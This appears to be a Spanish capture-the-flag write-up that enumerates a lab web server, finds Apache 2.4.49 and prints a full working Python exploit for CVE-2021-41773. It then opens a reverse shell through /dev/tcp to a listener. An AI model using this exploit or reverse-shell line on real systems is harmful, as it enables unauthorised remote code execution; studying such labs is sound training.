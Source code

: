 ## FASE ENUMERACIÓN

Sabiendo que la IP de la máquina victima es :172.17.0.2
comprobamos trazabilidad:
```bash
ping -c 1 172.17.0.2
```
```
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.064 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.064/0.064/0.064/0.000 ms
```

tenemos trazabilidad con la máquina y con el ttl=64 sabemos que se trata de una linux

Comprobamos que puertos tiene abiertos y que servicios y versiones corren por ellos:
```bash
 sudo nmap -Pn -n -sS -p- --open -sCV --min-rate 5000 172.17.0.2 -oN PuertosYservicios
```
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-title: Comando Ping
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.49 (Unix)
MAC Address: 02:42:AC:11:00:02 (Unknown)
```
 -Puerto 80
 Si más que rascar vamos a lanzar un whatweb para ver que nos reporta:

 ```bash
whatweb http://172.17.0.2    | tee whatweb
```
```
http://172.17.0.2 [200 OK] Apache[2.4.49], Country[RESERVED][ZZ], HTML5, HTTPServer[Unix][Apache/2.4.49 (Unix)], IP[172.17.0.2], Title[Comando Ping]
```
que corre un apache 2.4.49 y poco más...bueno poco más...es versión vulnerable

abrimos la página y con CTRL+C miramos el código fuente, donde vemos cosas imteresantes:
```
   <div data-note="Hay pistas en un html , fuzzing de ficheros"></div>
```

Así pues procedemos a hacer un fuzzing:
```bash
 feroxbuster -u "http://172.17.0.2" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,html,txt,js,old,bak -o fuzzFero
```
```
200      GET      110l      349w     4688c http://172.17.0.2/
200      GET      110l      349w     4688c http://172.17.0.2/index.html
200      GET       28l       66w      766c http://172.17.0.2/html.html
```
En http://172.17.0.2/html.html podemos leer lo siguiente:
```
En principio a punky le gusta ping y hacer cosas raras con ese versatil comando
```

bueno vamos a centrarnos en la version vunerable de apache:
```bash
gobuster dir -u http://172.17.0.2/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,txt,php,html,pl,py,cgi,bak -t 50                                                                
```
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/cgi-bin/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,pl,py,cgi,bak,sh,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/printenv             (Status: 500) [Size: 531]
/shell.cgi            (Status: 500) [Size: 531]
/test-cgi             (Status: 500) [Size: 531]
Progress: 41526 / 41535 (99.98%)
===============================================================
Finished
===============================================================
```
busco vulnerabilidades para esa versión y encuentro este script:
```bash
https://github.com/thehackersbrain/CVE-2021-41773
```
```
# Exploit Title: Apache HTTP Server 2.4.49 - Path Traversal & Remote Code Execution (RCE)
# Exploit Author: Gaurav Raj https://gauravraj.xyz
# Vendor Homepage:  https://apache.org/
# Version: 2.4.49
# Tested on: 2.4.49
# CVE : CVE-2021-41773


#!/usr/bin/python3

import argparse
import requests


def runcmd(target):
    url = 'http://{}'.format(target)
    req = requests.get(url)
    while True:
        cmd = input("\033[1;36m>>> \033[0m")
        if (cmd != 'exit'):
            if ('https' not in req.url):
                url = "http://{}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh".format(
                    target)
            else:
                url = "https://{}/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh".format(
                    target)
            data = "echo Content-Type: text/plain; echo; {}".format(cmd)
            session = requests.Session()
            req = requests.Request(
                method='POST', url=url, data=data).prepare()
            req.url = url
            print(session.send(req).text, end='')

        else:
            exit(0)


def banner():
    print('''--------------------------------------------------------
|                \033[1;32mApache2 2.4.49\033[1;37m - \033[1;31mExploit\033[0m              |
--------------------------------------------------------''')


def main():
    parser = argparse.ArgumentParser(description="Apache2 2.4.49 Exploit")
    parser.add_argument(
        '-t', '--target', help='Specify the target IP or Domain. eg: 127.0.0.1 or example.com', required=True)
    arg = parser.parse_args()
    banner()
    try:
        runcmd(arg.target)
    except KeyboardInterrupt:
        exit(1)
    except EOFError:
        exit(1)


if __name__ == '__main__':
    main()
```
me pongo en escucha en el puerto 4444
```bash
sudo nc -nvlp 4444
```
ejecuto el script
```bash
python exploit2 -t 172.17.0.2
```
creo un script en /tmp
```bash
echo "/bin/bash -i >& /dev/tcp/172.17.0.1/4444 0>&1 " > /tmp/rev.sh
```
y lo ejecuto
```bash
/bin/bash /tmp/rev.sh
```
tratamiento tty:
```bash
script /dev/null -c bash
ctrl+z
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
stty rows 51 columns 237
```


